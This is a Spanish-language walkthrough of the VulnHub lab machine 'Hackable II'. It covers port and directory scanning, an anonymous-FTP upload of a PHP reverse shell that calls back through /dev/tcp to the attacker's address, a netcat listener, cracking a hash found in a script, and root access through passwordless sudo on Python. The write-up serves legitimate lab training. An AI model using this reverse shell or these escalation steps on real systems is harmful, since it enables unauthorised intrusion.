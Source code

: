 ```yaml
---
title: Hackable II
date: 2024-07-03
categories: [WRITEUPS, VulnHub]
tags: []  # TAG names should always be lowercase
image: /assets/images/vulnhub/logo.png
---
```


En esta máquina, nos aprovecharemos del directorio de **Anonymous** en **FTP** para subir una **Reverse Shell**, y para la escalada de privilegios encontraremos la contraseña de **root** en un script.

---

En este ***Writeup*** se engloban las siguientes fases:
- **[Reconocimiento](#reconocimiento)**
- **[Explotación](#explotación)**
- **[Escalada de privilegios](#escalada-de-privilegios)**

---

## **Reconocimiento**

Lo primero que realizaremos una vez conozcamos la dirección *IP*, será realizar un escaneo con **NMAP**, para comprobar los puertos que tiene abiertos.

```bash
nmap -p- --open -T5 192.168.1.151 -n -Pn -v
```

![picture](/assets/images/vulnhub/hackable1.png){: w="600" h="300" }

Una vez realizado el escaneo, realizaremos un escaneo exhaustivo de los puertos encontrados, para ver si podemos encontrar algo más mediante los scripts de NMAP.

```bash
nmap -p21,22,80 -sV -sC 192.168.1.151 -v 
```

![picture](/assets/images/vulnhub/hackable2.png){: w="600" h="300" }

Encontramos que el usuario **Anonymous** está habilitado, y su directorio contiene un archivo llamado "*CALL.html*".

A continuación, lo descargaremos y veremos que contiene.

![picture](/assets/images/vulnhub/hackable3.png)

En un principio no parece haber nada relevante.

![picture](/assets/images/vulnhub/hackable4.png){: w="600" h="300" }

En la web hay una página por defecto de **Apache2**, y buscando información filtrada o comentada en la fuente de la página, encontramos lo siguiente.

![picture](/assets/images/vulnhub/hackable5.png)

Lo siguiente será realizar **Fuzzing** con **Gobuster** para ver que encontramos.

```bash
gobuster dir -u http://192.168.1.151/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .txt,.php,.html,.sh,.png,.jpg,.jpeg -b 404,403 
```

![picture](/assets/images/vulnhub/hackable6.png)

Encontramos la ruta "**/files/**", y comprobamos que es el mismo directorio que el que usa el usuario **Anonymous**.

![picture](/assets/images/vulnhub/hackable7.png){: w="600" h="300" }

---

## **Explotación**

Ya que el directorio que hemos encontrado, es el mismo que el de **Anonymous**, y lo podemos encontrar en el navegador, hay una vía potencial de subir un archivo **PHP** y que nos lo ejecute, así que subiremos una **Reverse Shell** simple, mediante **FTP**, para poder ejecutarla desde el navegador.

- *Reverse Shell*

    ```php
    <?php
    exec("/bin/bash -c 'bash -i > /dev/tcp/'Nuestra IP'/4444 0>&1'");
    ?>
    ```

![picture](/assets/images/vulnhub/hackable8.png)

Antes de ejecutarla, crearemos un **Listener** con **Ncat** en nuestra máquina local.

- Listener

    ```bash
    nc -nlvp 4444
    ```

Actualizamos la web una vez subamos el archivo, y clicamos en el archivo.

![picture](/assets/images/vulnhub/hackable9.png){: w="600" h="300" }

Y obtendremos acceso al servidor como el usuario "**www-data**".

---

## **Escalada de privilegios**

En el directorio *"/home/"* encontramos un archivo que nos indica que ejecutemos un *script*, y la carpeta personal de un usuario llamado **shrek**.

![picture](/assets/images/vulnhub/hackable10.png){: w="600" h="300" }

Si vemos el contenido del script, podemos comprobar que no hace nada, simplemente saca output por terminal, pero abajo podemos encontrar lo que parece una contraseña hasheada.

![picture](/assets/images/vulnhub/hackable11.png){: w="600" h="300" }

Nos vamos a [**Crackstation**](https://crackstation.net), e introducimos la contraseña, y nos la deshasea.

![picture](/assets/images/vulnhub/hackable12.png)

Intentamos acceder mediante **SSH**, y obtenemos acceso como el usuario "**shrek**". (También funciona con **su shrek**)

![picture](/assets/images/vulnhub/hackable13.png){: w="600" h="300" }

En su directorio personal, tenemos la primera **flag**.

![picture](/assets/images/vulnhub/hackable14.png){: w="600" h="300" }

Comprobando los permisos de **SUDO** del usuario "**shrek**", comprobamos que no necesita contraseña al ejecutar Python3.5 con permisos de **SUDO**.

Para escalar privilegios al usuario root, ejecutaremos lo siguiente.

```bash
sudo python3.5
```
Y dentro de **Python3.5**.

```python
import os
os.setuid(0)
os.system("whoami")
os.system("/bin/bash")
```

![picture](/assets/images/vulnhub/hackable15.png){: w="600" h="300" }

Y en el directorio personal de root, tenemos la segunda **flag**.

![picture](/assets/images/vulnhub/hackable16.png){: w="600" h="300" }